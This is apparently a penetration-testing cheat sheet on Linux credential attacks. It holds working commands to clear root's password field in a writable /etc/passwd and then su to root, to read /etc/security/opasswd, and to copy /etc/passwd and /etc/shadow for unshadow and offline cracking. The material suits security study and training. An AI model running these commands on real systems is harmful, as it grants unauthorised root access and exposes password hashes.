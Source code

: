 #### Editing /etc/passwd - Before
```Shell
root:x:0:0:root:/root:/bin/bash
```

#### Editing /etc/passwd - After
```Shell
root::0:0:root:/root:/bin/bash
```
Usually, we find the value `x` in this field, which means that the passwords are stored in an encrypted form in the `/etc/shadow` file. However, it can also be that the `/etc/passwd` file is writeable by mistake. This would allow us to clear this field for the user `root` so that the password info field is empty. This will cause the system not to send a password prompt when a user tries to log in as root.

#### Log in as Root w/o Password
```Shell
head -n 1 /etc/passwd
```
If: root::0:0:root:/root:/bin/bash
`Then:`
```Shell
su
```

### Shadow File

Algorithm Types in Shadow File

- `$1$` – MD5
- `$2a$` – Blowfish
- `$2y$` – Eksblowfish
- `$5$` – SHA-256
- `$6$` – SHA-512

### Opasswd

#### Reading /etc/security/opasswd
```Shell
sudo cat /etc/security/opasswd
```


### Cracking Linux Credentials

#### Unshadow
```Shell
cp /etc/passwd /tmp/passwd.bak
```

```Shell
cp /etc/shadow /tmp/shadow.bak
```

```Shell
unshadow /tmp/passwd.bak /tmp/shadow.bak > /tmp/unshadowed.hashes
```
